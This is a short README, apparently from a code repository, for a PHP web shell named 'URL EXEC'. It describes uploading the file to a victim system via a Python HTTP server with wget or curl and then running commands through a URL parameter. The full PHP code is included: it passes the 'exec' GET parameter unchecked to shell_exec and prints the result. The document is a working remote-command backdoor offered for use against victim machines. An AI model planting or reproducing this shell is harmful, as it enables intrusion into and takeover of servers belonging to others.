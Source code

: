 # URL EXEC
This script works as it follows:
1. You introduce the script called ```1.php``` onto the system via a http python server and the commands wget and curl, for example:
```python
    python3 -m http.server 8888
```
2. From a web browser, or via command line (using the command mentioned above curl) you can execute the script using the url:
```html
    http://<victim_ip_address>/1.php?exec=<command_to_run>
```
3. The command run will be shown in the screen.

The code we have done for this script is the following:

```php
<?php
    $command=$_GET['exec'];

    $output = shell_exec($command);
    echo "<pre>$output</pre>";
?>
```
